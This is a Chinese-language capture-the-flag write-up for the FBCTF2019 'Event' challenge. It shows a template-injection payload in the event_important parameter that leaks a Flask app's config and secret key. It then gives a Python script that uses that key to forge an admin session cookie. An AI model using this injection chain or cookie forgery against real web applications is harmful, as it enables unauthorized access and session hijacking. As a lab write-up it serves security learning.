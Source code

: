 # [FBCTF2019]Event

## 题目考点

- 模版注入
- cookie伪造

## 解题过程

![在这里插入图片描述]([FBCTF2019]Event/20200729091323803.png)

![在这里插入图片描述]([FBCTF2019]Event/20200729091405443.png)

![在这里插入图片描述]([FBCTF2019]Event/20200729091405443.png)

在提交数据的时候，有三个可控参数，经测试在`event_important`参数存在模版注入，输入`__dict__`，发现成功回显

```
event_name=test&event_address=test&event_important=__class__.__init__.__globals__[app].config
```

![在这里插入图片描述]([FBCTF2019]Event/20200729092132546.png)

 接着查找配置文件：`__class__.__init__.__globals__[app].config`

![在这里插入图片描述]([FBCTF2019]Event/20200729092342812.png)

发现密钥，开始伪造Cookie

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'

session= SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session.dumps("admin"))

index()
```

伪造cookie拿到flag

![image-20220126201735897]([FBCTF2019]Event/image-20220126201735897.png)